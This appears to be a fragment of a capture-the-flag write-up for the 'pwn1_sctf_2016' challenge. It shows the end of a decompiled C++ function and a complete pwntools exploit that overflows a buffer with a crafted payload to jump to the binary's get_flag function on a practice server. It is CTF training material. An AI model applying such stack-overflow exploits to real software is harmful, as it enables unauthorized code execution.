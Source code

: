 ```cpp collapse={4-45}
    std::string::~string(v19);
    std::string::~string(v5);
    std::string::~string(v6);
  }
  std::string::string(a1, a2);
  return a1;
}
```

## Exploit

```python
#!/usr/bin/python

from pwn import args, context, flat, gdb, process, remote

gdbscript = """
b *vuln+42
c
"""

FILE = "./pwn1_sctf_2016"
HOST, PORT = "node5.buuoj.cn", 28688

context(log_level="debug", binary=FILE, terminal="kitty")


def launch():
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)

    if args.D:
        gdb.attach(target, gdbscript=gdbscript)

    return target


def construct_payload():
    elf = context.binary

    payload = flat(b"I" * 21 + b"A", elf.symbols["get_flag"])

    return payload


def main():
    target = launch()

    payload = construct_payload()

    target.sendline(payload)
    target.interactive()


if __name__ == "__main__":
    main()
```
